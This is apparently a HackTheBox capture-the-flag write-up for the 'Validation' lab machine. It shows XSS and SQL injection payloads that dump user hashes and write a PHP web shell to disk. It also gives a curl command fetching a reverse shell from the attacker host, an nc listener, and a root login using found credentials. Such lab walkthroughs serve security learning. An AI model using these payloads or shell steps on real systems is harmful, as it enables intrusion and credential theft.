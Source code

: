 # Validation HacktheBox

**DEMO**

https://youtu.be/f8WEvvKZM8s

**ENUMERATION**

**NMAP**

![image](https://user-images.githubusercontent.com/79543461/177142512-ca4b0e81-c4bd-4cae-a65e-6dc6976a7242.png)

**Port 80**

![image](https://user-images.githubusercontent.com/79543461/177142701-0be496f1-60ba-4fed-871d-836ca8352fb7.png)

**Port 4566**

![image](https://user-images.githubusercontent.com/79543461/177142777-127ce58a-10c2-4d35-99cd-904be4e79abd.png)

**Port 8080**

![image](https://user-images.githubusercontent.com/79543461/177142844-5600bb65-4f47-4ae9-8d4c-e20eaca2a966.png)

I enumerate Port 80:

![image](https://user-images.githubusercontent.com/79543461/177143065-83faf0c0-e186-40e3-aac5-4011e709f972.png)

**First Attack Vectors**

The index page of this web it's a form to qualify for something called September UHC, let's try to inject code SQL,XSS,HTML and more.

**XSS**

Payload: <script>alert("SS")</script>

![image](https://user-images.githubusercontent.com/79543461/177160817-3203a467-57bd-4bb6-ab4a-50d45508fc1c.png)

**It's Vulnerable to XSS and HTML Injection, but i can't do anything**

**SQLI**

**BurpSuite**

Payload: ' order by 10000-- - == **NO WORK**

Payload: ' union select 1-- - == **NO WORK**

**Country Field**

Let's try to do this payloads with other field from request.

Payload: ' union select 1-- - == **WORKS!!!!!**

![image](https://user-images.githubusercontent.com/79543461/177161840-7352bb95-c77b-451d-9b9f-8d3d785baed2.png)

![image](https://user-images.githubusercontent.com/79543461/177162100-a0e026a4-6b8d-4f35-b056-161b90c9238e.png)

Let's go to enumerate Things.

**Database**

Payload: ' union select database()-- -

![image](https://user-images.githubusercontent.com/79543461/177163576-b903824d-3109-4143-b421-39d210096c0e.png)

**Version**

Payload: ' union select @@version-- -

![image](https://user-images.githubusercontent.com/79543461/177164063-41a93070-b0fc-4cfc-8592-f87ac3f97f96.png)

**All DataBases**

Payload: ' union select schema_name from information_schema.schemata

![image](https://user-images.githubusercontent.com/79543461/177171212-3efc9aa0-4291-4807-abf9-66885bfe0a08.png)

**Tables Registration Database**

Payload: ' union select table_name from information_schema.tables where table_schema="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177171583-48dca75b-e3f3-4a55-a860-3d5297fb0f45.png)

Table name is the same than DataBase Name

**Columns**

Payload: ' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177172114-948b0c56-5358-47d9-8328-fec1366e3086.png)

**Users and Passwords**

Payload: ' union select group_concat(username,0x3a,userhash) from registration-- -

![image](https://user-images.githubusercontent.com/79543461/177172762-289b5e1f-248c-4e39-994f-d6fd8a30c4ff.png)

This users are my users...

**RCE**

Payload: ' union select "**<?php system($_REQUEST['cmd']);?>**" into outfile "/var/www/html/rce.php"-- -

**Works!!**

![image](https://user-images.githubusercontent.com/79543461/177177136-7d1b27fa-3f5e-420b-9fb2-e048e02d502a.png)

**Reverse Shell**

I create in my Kali Machine a php script to gain reverse shell.

I open http server wirth python3: python3 -m http.server

In victim RCE: curl -o shell.php 10.10.14.33:8000/shell.php

Now i put rlwrap nc -lnvp 1212

I access to:  http://10.10.11.116/shell.php

**I HAVE SHELL!!**

![image](https://user-images.githubusercontent.com/79543461/177179263-e41c28fb-324e-4e7d-926b-8e39c4548d11.png)

**user.txt**

![image](https://user-images.githubusercontent.com/79543461/177180144-1d77396f-ef0f-468b-95cb-6a7bc2c9e3a7.png)

**Docker Container**

![image](https://user-images.githubusercontent.com/79543461/177180507-f5f4daf5-7dd3-46d8-b3ca-80eb00577e6e.png)

Im in docker container but i found a credentials in /var/www/html/config.php

![image](https://user-images.githubusercontent.com/79543461/177180745-2ee9c296-3318-4717-ae22-c97fb8fff416.png)

**SSH DON'T WORK**

![image](https://user-images.githubusercontent.com/79543461/177181115-1fc9620d-cb57-48a3-b954-ef3611b19b7d.png)

su root its working

![image](https://user-images.githubusercontent.com/79543461/177182304-06ef859a-1a1e-4191-87cc-2a6e79256819.png)

**DONE :)**

**DEMO**
https://youtu.be/f8WEvvKZM8s

Thanks
